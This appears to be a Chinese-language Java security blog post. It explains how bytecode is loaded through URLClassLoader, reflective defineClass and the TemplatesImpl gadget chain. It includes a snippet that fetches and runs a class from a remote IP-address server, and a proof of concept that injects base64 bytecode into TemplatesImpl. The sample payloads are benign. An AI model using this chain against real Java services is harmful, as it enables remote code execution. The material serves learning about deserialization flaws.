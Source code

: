 # [Java安全] Templatesimpl与字节码


# Java字节码

![image-20221003145149412](https://tuchuang.huamang.xyz/img/image-20221003145149412.png)

# URLClassLoader远程加载

在前面学习classloader的时候就学习到了URLClassLoader，进行远程加载类

比如我在远程服务器写一个这个类

```java
public class Test {
    public static void main(String[] args){
        try{
            Runtime.getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");
        } 
        catch(Exception e) {
            e.printStackTrace();
        }
    }

}
```

然后在服务端远程加载这个类

```java
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class URLClassLoaderTest {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InstantiationException, IllegalAccessException {
        URL url = new URL("http://101.35.98.118:12424/javatest/");
        URLClassLoader cl = new URLClassLoader(new URL[]{url});
        Class c = cl.loadClass("Test");
        c.newInstance();
    }
}
```

>正常情况下，Java会根据配置项 sun.boot.class.path 和 java.class.path 中列举到的基础路径（这 些路径是经过处理后的 java.net.URL 类）来寻找.class文件来加载，而这个基础路径有分为三种情况：
>
> URL未以斜杠 / 结尾，则认为是一个JAR文件，使用 JarLoader 来寻找类，即为在Jar包中寻 找.class文件
>
>URL以斜杠 / 结尾，且协议名是 file ，则使用 FileLoader 来寻找类，即为在本地文件系统中寻 找.class文件
>
>URL以斜杠 / 结尾，且协议名不是 file ，则使用最基础的 Loader 来寻找类 
>
>我们正常开发的时候通常遇到的是前两者，那什么时候才会出现使用 Loader 寻找类的情况呢？当然是 非 file 协议的情况下，最常见的就是 http 协议。



# defineClass直接加载

加载字节码，无论是远程还是本地，最后都会到defineClass，p牛这里画了一个图非常直观

![image-20221003150244511](https://tuchuang.huamang.xyz/img/image-20221003150244511.png)

- loadClass 的作用是从已加载的类缓存、父加载器等位置寻找类（这里实际上是双亲委派机 制），在前面没有找到的情况下，执行 findClass 

- findClass 的作用是根据基础URL指定的方式来加载类的字节码，就像上一节中说到的，可能会在 本地文件系统、jar包或远程http服务器上读取字节码，然后交给 defineClass 

- defineClass 的作用是处理前面传入的字节码，将其处理成真正的Java类

他决定了如何将一段字节流转变成一个Java类，Java 默认的 ClassLoader#defineClass 是一个native方法，逻辑在JVM的C语言代码中

但是要注意的是，defineClass调用的时候，**类对象不会被初始化**，所以如果要使用defineClass来加载类的时候，需要想办法**调用构造方法**

这里，因为系统的 ClassLoader#defineClass 是一个保护属性，所以我们无法直接在外部访问，不得不使用**反射**的形式来调用

```java
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Base64;

public class defineClass {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {
        Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass",String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);

        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAGwoABgANCQAOAA8IABAKABEAEgcAEwcAFAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApTb3VyY2VGaWxlAQAKSGVsbG8uamF2YQwABwAIBwAVDAAWABcBAAtIZWxsbyBXb3JsZAcAGAwAGQAaAQAFSGVsbG8BABBqYXZhL2xhbmcvT2JqZWN0AQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3RyZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWACEABQAGAAAAAAABAAEABwAIAAEACQAAAC0AAgABAAAADSq3AAGyAAISA7YABLEAAAABAAoAAAAOAAMAAAACAAQABAAMAAUAAQALAAAAAgAM");
        Class hello = (Class) defineClass.invoke(ClassLoader.getSystemClassLoader(),"Hello",code,0,code.length);
        hello.newInstance();

    }
}


```

![image-20221003154444756](https://tuchuang.huamang.xyz/img/image-20221003154444756.png)



# TemlatesImpl加载字节码

defineClass因为太底层了，一般开发是不会直接使用他的，但是不代表就没有价值了，比如这个TemlatesImpl里面就用到了defineClass，下面来分析这个利用链

在TemplatesImpl里定义了一个TransletClassLoader，这里面最后一行重写了defineClass方法，而且没有声明定义域，那就是默认default，可以在当前类和同包里被利用

![image-20221003161442834](https://tuchuang.huamang.xyz/img/image-20221003161442834.png)

那我们就找TemplatesImpl哪里调用了`TransletClassLoader#defineClass()`，找引用，发现在`TemplatesImpl#defineTransletClasses()`调用了，但是这个作用域是private，所以我们再找一下哪里调用了这个

![image-20221003162153066](https://tuchuang.huamang.xyz/img/image-20221003162153066.png)

继续找引用，找到个getTransletInstance，还是private

![image-20221003162540336](https://tuchuang.huamang.xyz/img/image-20221003162540336.png)

继续找引用，在newTransformer找到唯一的应用，而且newTransFormer是public，可以在外面被调用了

![image-20221003162637511](https://tuchuang.huamang.xyz/img/image-20221003162637511.png)

所以链子就出来了

```java
TemplatesImpl#newTransformer() ->
TemplatesImpl#getTransletInstance() -> 
TemplatesImpl#defineTransletClasses()-> 
TransletClassLoader#defineClass()
```

现在我们来构造POC，看看如何把序列化数据放进去执行defineClass，从后往前看，code作为唯一的传输传入

![image-20221003164319235](https://tuchuang.huamang.xyz/img/image-20221003164319235.png)

往上走，首先是TransletClassLoader对象的创建，这里的第二个参数需要我们传入不然会报错，只需要创建一个对象传进去就行了

```java
private transient TransformerFactoryImpl _tfactory = null;
```

![image-20221003172520085](https://tuchuang.huamang.xyz/img/image-20221003172520085.png)

这里循环传入，数据来源是`_bytecodes[i]`，他是私有成员变量，可以控制

![image-20221003164600033](https://tuchuang.huamang.xyz/img/image-20221003164600033.png)

但是仅有`_bytecode`是不行的，这里我们往上走会发现，这里要进去这个方法还有条件，我们必须保证`_name`不为空，否则就不会进入defineTransletClasses

![image-20221003165638514](https://tuchuang.huamang.xyz/img/image-20221003165638514.png)

所以我们需要为TemplatesImpl设定三个值，由于是私有属性，我们需要用到反射`setAccessible`去设置私有成员变量

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import java.lang.reflect.Field;
import java.util.Base64;

public class TemplatesImplTest {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQAGwoABgANCQAOAA8IABAKABEAEgcAEwcAFAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApTb3VyY2VGaWxlAQAKSGVsbG8uamF2YQwABwAIBwAVDAAWABcBAAtIZWxsbyBXb3JsZAcAGAwAGQAaAQAFSGVsbG8BABBqYXZhL2xhbmcvT2JqZWN0AQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3RyZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWACEABQAGAAAAAAABAAEABwAIAAEACQAAAC0AAgABAAAADSq3AAGyAAISA7YABLEAAAABAAoAAAAOAAMAAAACAAQABAAMAAUAAQALAAAAAgAM");
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_bytecodes",new byte[][]{bytes});
        setFieldValue(templates,"_name","test");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        templates.newTransformer();
    }

    //利用反射给私有变量赋值如下
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
}

```

但是我们拿刚刚defineClass的序列化数据直接跑起来发现，他没有执行命令

原因是TemplatesImpl对加载的字节码是有要求的：这个字节码对应的类必须是 `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet` 的子类

所以我们需要构造一个继承了`AbstractTranslet`的类，在他的构造方法里去写我们要执行的代码

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class TempClass extends AbstractTranslet {
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    public TempClass(){
        super();
        System.out.println("Hello TemplatesImpl");
    }
}

```

![image-20221003173827012](https://tuchuang.huamang.xyz/img/image-20221003173827012.png)



当然，TemplatesImpl的newTransformer的外面其实还有一层，是`getOutputProperties`

![image-20221026114030708](https://tuchuang.huamang.xyz/img/image-20221026114030708.png)

而有的地方是存在`getProperty`方法的，对这个方法要有敏感度，他会调用JavaBean的getter方法，而`getOutputProperties`就是一个getter方法。利用可以参考CB1

